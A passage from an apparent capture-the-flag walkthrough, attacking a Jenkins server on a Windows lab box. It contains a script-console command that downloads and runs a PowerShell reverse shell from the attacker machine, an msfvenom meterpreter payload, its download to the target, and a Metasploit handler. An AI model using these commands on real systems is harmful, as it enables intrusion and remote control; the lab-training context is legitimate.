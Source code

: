Option 2: Script console:

```text
print "powershell IEX(New-Object Net.WebClient).downloadString('http://<IP address attack machine>:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <IP address attack machine> -Port 443".execute().text
```

In the terminal with the listener:

    # nc -lvnp 4443
    Ncat: Version 7.92 ( https://nmap.org/ncat )
    Ncat: Listening on :::4443
    Ncat: Listening on 0.0.0.0:4443
    Ncat: Connection from 10.10.184.145.
    Ncat: Connection from 10.10.184.145:49217.
    Windows PowerShell running as user bruce on ALFRED
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\Program Files (x86)\Jenkins>

Get the flag:

    PS C:\Program Files (x86)\Jenkins> cd ..\..\Users\bruce\Desktop
	PS C:\Users\bruce\Desktop> cat users.txt

## Switching shells

Generate payload:

	# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=8080 -f exe -o shell.exe

Set up a Python web server to host the reverse shell:

	# python3 -m http.server 8080

Download the `shell.exe` to the target machine:

	PS  C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://[ATTACKER IP]:8080/shell.exe','shell.exe')"

In a new terminal, start Metasploit, select the multi handler module, set the payload type, LHOST and LPORT options to match the payload shell, and run the listener:

	# msfconsole -q
	msf6 > use exploit/multi/handler 
	msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
	msf6 exploit(multi/handler) > set LHOST <IP address attack machine>
	msf6 exploit(multi/handler) > set LPORT <Listen port on attack machine>
	msf6 exploit(multi/handler) > run
	